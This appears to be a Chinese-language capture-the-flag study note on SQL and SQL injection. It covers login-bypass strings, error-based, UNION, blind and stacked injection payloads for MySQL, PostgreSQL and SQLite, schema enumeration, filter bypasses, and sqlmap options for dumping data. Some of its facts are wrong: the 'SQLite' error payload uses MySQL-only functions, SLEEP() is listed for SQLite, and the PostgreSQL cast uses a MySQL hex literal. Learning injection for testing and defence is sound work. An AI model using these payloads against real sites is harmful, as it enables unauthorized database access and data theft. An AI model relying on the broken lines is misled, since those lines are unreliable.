

# SQL

数据库通常如以下结构

对于关系型数据库，数据库中包含多个数据库（Database），每个数据库中包含多个表（Table），每个表中包含多列（Column）。每列存储特定类型的数据。

Sqlite数据库通常是单数据库文件，只有一个数据库，没有数据库名的概念。

对于MySQL等数据库需要通过用户名密码登录后才能访问数据库，可以单独配置权限。而SQLite等数据库则是直接访问数据库文件，没有权限管理。

Tips:

- 在windows下，当表名或列名为SQL关键字或数字时，需要使用反引号(\`)括起来，例如：\`word\`。

## 语法

### 查询语句

`SELECT 字段名 FROM 表名 WHERE 条件 LIKE 模糊匹配`

## 一些特殊库/表

**MySQL/MariaDB**

- `information_schema`：存储数据库的元数据，如数据库名、表名、列名等信息。
- `mysql`：存储用户权限和配置信息。
- `performance_schema`：用于性能监控和分析。
- `sys`：提供简化的性能和诊断视图。

**PostgreSQL**

- `information_schema`：与MySQL类似，存储数据库的元数据。
- `pg_catalog`：存储数据库的元数据。
- `pg_toast`：用于存储大型对象。
- `pg_temp`：用于临时表。

**SQLite**

- `sqlite_master`：存储数据库的结构信息，如表名、列名等。
## SQL 注入

先尝试输入，查看是 POST 还是 GET 请求。

然后测试单引号，双引号，看回显判断输出是否有过滤，以及查询命令用的字符串拼接符号

测试关键字有没有过滤，可以用 Burpsuite 的 Intruder 模块批量测试。看能进行什么注入

**注释符号**

`--` 几乎所有数据库都能用，但末尾一定要带空格，但是在url参数末尾的空格会被忽略，所以空格后还要加任意字符，所以通常写 `-- 1`

`#` MySQL 专用

有一些最简单的万能密码`' or '1'='1`，`' or 1=1 -- `

**确定数据库类型**

- MySQL/MariaDB/PostgreSQL：`SELECT version();`
- SQLite：`SELECT sqlite_version();`

也可以通过报错信息判断数据库类型，通常报错信息里会包含了数据库类型

### 报错注入

构造 SQL 语句，使数据库产生错误，并在错误信息中显示查询结果。

**XPath错误**：这类错误通常出现在 MySQL/MariaDB 中，利用 `extractvalue()` 或 `updatexml()` 函数解析非法的 XML 参数时，会返回包含查询结果的错误信息。

#### 常见技巧

MySQL/MariaDB：
- `extractvalue(1, concat(0x7e, (SELECT database())))` - 利用 XPath 错误
- `updatexml(1, concat(0x7e, (SELECT user())), 1)` - 利用 XPath 错误
- `SELECT *, (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, (SELECT database()), 0x7e, FLOOR(RAND()*2)) x FROM information_schema.tables GROUP BY x) a)` - 利用 GROUP BY 重复键错误

PostgreSQL：
- `SELECT CAST(CONCAT(version(), 0x7e) AS INTEGER)` - 强制类型转换错误
- `SELECT 1/0` - 被动触发特定错误消息

SQLite：
- `SELECT 1 WHERE (SELECT 1 FROM (SELECT(1) UNION SELECT NULL UNION SELECT NULL WHERE (SELECT COUNT(*) FROM sqlite_master) > 0 AND extractvalue(1,concat(0x7e,(SELECT database())))))`

**修改查询内容**

可在注入语句中替换 `SELECT database()` 为其他查询：
- `SELECT user()` - 查询当前用户
- `SELECT version()` - 查询版本信息
- `SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()` - 查询所有表名

### 联合注入

利用 `ORDER BY` 测试内部结果返回的列数

利用 `UNION SELECT 1,2,3` 确定回显在输出列的位置

利用 `LIMIT 1 OFFSET n` 遍历查询结果，如果超出范围不会报错，会返回空查询

利用 `SELECT group_concat(字段名) FROM 表名`（MySQL/SQLite）；`SELECT STRING_AGG(字段名, ',') FROM 表名`（PostgreSQL） 拼接查询结果

#### 查询当前数据库名

MySQL/MariaDB：`SELECT database()`

PostgreSQL：`SELECT current_database()`

SQLite：单数据库结构，无数据库名

#### 查询所有库名

MySQL/MariaDB：`SELECT schema_name FROM information_schema.schemata`

PostgreSQL：`SELECT datname FROM pg_database`

SQLite：单数据库结构

#### 查询所有表名

MySQL/MariaDB：`SELECT table_name FROM information_schema.tables WHERE table_schema='数据库名'`

PostgreSQL：`SELECT table_name FROM information_schema.tables WHERE table_schema='public'`

SQLite：`SELECT name FROM sqlite_master WHERE type='table'`

#### 查询所有列名

MySQL/MariaDB：`SELECT column_name FROM information_schema.columns WHERE table_schema='数据库名' AND table_name='表名'`

PostgreSQL：`SELECT column_name FROM information_schema.columns WHERE table_schema='public' AND table_name='表名'`

SQLite：`SELECT name FROM pragma_table_info('表名')`

#### 查询数据

`SELECT 列名 FROM 表名`

### 盲注

#### 布尔盲注

利用 `AND` 或 `OR` 构造条件判断语句，例如 `AND 1=1`（总为真）或 `AND 1=2`（总为假），通过观察页面响应的差异来推断查询结果。

#### 时间盲注

利用 `SLEEP()`（MySQL/SQLite）或 `pg_sleep()`（PostgreSQL）函数构造条件判断语句，例如 `AND SLEEP(5)`，如果页面响应时间明显增加，则说明条件为真。

### 堆叠注入

**查询所有库名**

MySQL/MariaDB：`SELECT schema_name FROM information_schema.schemata`/`SHOW DATABASES`

**查询所有表名**

MySQL/MariaDB：`SELECT table_name FROM information_schema.tables WHERE table_schema='数据库名'`/`SHOW TABLES`

**查询所有列名**

MySQL/MariaDB：`SELECT column_name FROM information_schema.columns WHERE table_schema='数据库名' AND table_name='表名'`/`SHOW COLUMNS FROM 表名`

**EXECUTE执行**
MySQL/MariaDB：`PREPARE s FROM '命令';EXECUTE s;`

## 一些绕过

`concat()` 函数拼接字符串

`CHAR()`（MySQL/SQLite）；`CHR()`（PostgreSQL/Oracle）ASCII转码

**双写绕过**

对于单次黑名单替换的，并且没有检查处理后字符串的，可以使用双写绕过。例如输入 `SESELECTLECT`，后端会将 `SELECT` 替换为 ` `，替换后的结果为 ` SELECT `，从而成功绕过过滤。

## SQLmap 使用

项目地址：[SQLmap](https://github.com/sqlmapproject/sqlmap)

`-u`：指定目标 URL

`-r`：使用保存的请求

`-p`：指定注入参数

`--dbs`：列出数据库

`-D <database>`：指定数据库

`--tables`：列出表

`-T <table>`：指定表

`--columns`：列出列

`-C <column>`：指定列

`--dump`：导出数据